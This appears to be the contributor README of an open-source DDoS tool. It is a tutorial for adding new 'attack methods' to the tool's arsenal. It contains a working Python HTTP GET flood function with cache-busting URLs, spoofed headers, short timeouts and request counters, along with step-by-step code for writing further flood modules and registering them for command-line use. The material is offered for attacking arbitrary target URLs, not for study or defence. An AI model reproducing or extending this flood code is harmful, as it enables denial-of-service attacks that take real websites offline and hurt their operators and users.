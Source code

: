 ## Welcome to the arsenal!
Here you can view all "standard" attack methods/vectors, which can be used by anybody.
<br>
If you want to add a new method, its really simple

### - Creating the file
To start, you need to create a file, in `src/methods`

### - Starting on the actual code
All methods follow a simple "module" structure:

1. First, we have the license
```py
'''

Copyright (c) 2022 Nexus/Nexuzzzz

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.

'''
```
<br>

2. After that, we have the imports
```py
import time, requests
from src.core import Core
from src.utils import *
from src.useragent import *
```
<br>

3. And then the actual flood function
```py
def flood(attack_id, url, stoptime) -> None:

    while time.time() < stoptime and not Core.killattack:
        if not Core.attackrunning:
            continue

        try:

            Core.session.get(
                utils().buildblock(url), 
                headers=utils().buildheaders(url),
                verify=False, 
                timeout=(5,0.1), 
                allow_redirects=False,
                stream=False,
                cert=None
            )

            Core.infodict[attack_id]['req_sent'] += 1
        except requests.exceptions.ReadTimeout: # if we get a ReadTimeout error, we count it as sent
            Core.infodict[attack_id]['req_sent'] += 1

        except Exception:
            Core.infodict[attack_id]['req_fail'] += 1

        Core.infodict[attack_id]['req_total'] += 1
    Core.threadcount -= 1
```
<br>

4. Here, the method gets added to the global methods "database"
```py
# add the method to the methods dictionary
Core.methods.update({
    'GET': { # name, which will be used for the "-m/--method" argument
        'info': 'HTTP GET flood, with basic customizability', # information about the attack
        'func': flood # function
    }
})
```

### - Creating your own method
1. First, you need to add the license, which all other methods use (i will not show it here, due to the sheer size of the license)
2. After that, import the libraries you need
    - These 2 are REQUIRED, and should be imported at ANY cost:
        - `import time`: needed to calculate the stop time
        - `from src.core import Core`: needed for some core variables

3. Now, we can begin on the actual DDoS'ing function
    - The function should accept 3 arguments:
        - `attack_id`: the attack id, used for calculating the requests sent, failed and more
        - `url`: the target url
        - `stoptime`: the time at which to stop the loop, and stop attacking
    - Our code should now look something like this:
        ```py
        # bla bla license here

        # our imports
        import time
        from src.core import Core

        # our attack function
        def attacker(attack_id, url, stoptime):
        ```
    
    - After that, we will start on the attack loop:
        ```py
        while time.time() < stoptime and not Core.killattack: # loops until the time is equal to the stoptime, or the Core.killattack flag has been set to True
            if not Core.attackrunning: # not running? just restart the loop
                continue
        ```
    - If we add that to our code, it will look like this:
        ```py
        # bla bla license here

        # our imports
        import time
        from src.core import Core

        # our attack function
        def attacker(attack_id, url, stoptime):
            while time.time() < stoptime and not Core.killattack:
                if not Core.attackrunning:
                    continue
        ```
    
    - Now, we will start on the request sending
       - It is recommended to use the `Core.session` object, due to it being much faster
       - You can just do `requests.get` or `requests.post`, but it will take a huge hit on the performance
       - For the sake of the small tutorial, we will just be doing `requests.get`

       - start by adding the `requests.get` function, where the url will be the `url` argument passed to the function:
           ```py
           requests.get(url)
           ```
        
    - Now add the page requesting code to our method code:
        ```py
        # bla bla license here

        # our imports
        import time
        from src.core import Core

        # our attack function
        def attacker(attack_id, url, stoptime):
            while time.time() < stoptime and not Core.killattack:
                if not Core.attackrunning:
                    continue

                requests.get(url)
        ```
    
    - At last, we will be adding our newly created method to the core list of methods:
        ```py
        Core.methods.update({
            'MYCOOLFLOOD': { # your method name, which will be used for the "-m/--method" argument
                'info': 'Hey, look at this awesome flood i made!', # information about the attack
                'func': attacker # function
            }
        })
        ```
    
    - And done! You have now created your own special attack method.
    - If you wish to share it, just make a `pull` request with the new method included